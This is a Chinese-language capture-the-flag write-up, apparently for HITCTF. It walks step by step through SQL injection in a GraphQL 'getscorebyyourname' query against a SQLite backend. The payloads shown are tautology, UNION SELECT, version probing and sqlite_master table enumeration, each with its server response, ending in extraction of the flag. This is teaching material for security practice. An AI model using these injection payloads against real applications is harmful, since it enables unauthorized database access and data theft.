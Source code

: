 并且我们惊奇的发现，这里不会再受1位数的限制了，于是尝试注入

{ getscorebyyourname(name: "1' or 'a'='a"){ name score } }

得到回显

OrderedDict([(u'getscorebyyourname', OrderedDict([(u'name', "1' or 'a'='a"), (u'score', '100995958')]))])

发现注入成功了

于是我们构造联合查询

{ getscorebyyourname(name: "1' union select 1 --"){ name score } }

得到回显

OrderedDict([(u'getscorebyyourname', OrderedDict([(u'name', "1' union select 1 --"), (u'score', '1')]))])

发现score处变成了我们联合查询填充的1

这时我尝试查询数据库名的时候发现了问题

[GraphQLLocatedError('no such function: database',)]

这时我注意到，这题并不是Mysql,于是我猜测是sqlite

我们测试一下:

{ getscorebyyourname(name: "1' union select sqlite_version() --"){ name score } }

得到回显

OrderedDict([(u'getscorebyyourname', OrderedDict([(u'name', "1' union select sqlite_version() --"), (u'score', '3.11.0')]))])

发现成功查询出版本号:3.11.0，果然是sqlite

于是开始爆表：

1' union select (select name from sqlite_master where type='table' limit 0,1) --

可以得到回显

OrderedDict([(u'getscorebyyourname', OrderedDict([(u'name', "1' union select (select name from sqlite_master where type='table' limit 0,1) --"), (u'score', 'users')]))])

第一个表是users，依次查找，可以发现我们要的是第二个表:Secr3t_fl4g

猜测字段名为flag并且查询

1' union select (select flag from Secr3t_fl4g) --

得到答案

OrderedDict([(u'getscorebyyourname', OrderedDict([(u'name', "1' union select (select flag from Secr3t_fl4g) --"), (u'score', 'HITCTF{fee26d3a146a404e106b1ed93156f30e}')]))])

可以看到flag：

HITCTF{fee26d3a146a404e106b1ed93156f30e}

看不过瘾？合天2017年度干货精华请点击《[【精华】2017年度合天网安干货集锦](http://mp.weixin.qq.com/s?__biz=MjM5MTYxNjQxOA%3D%3D&chksm=bd5944558a2ecd431c78ad700abca82b6ed7f84dbf4811c992df4e464dbbc12124dd38df2554&idx=1&mid=2652846232&scene=21&sn=82123fbf2411874a427fb84cd111e39a#wechat_redirect)》
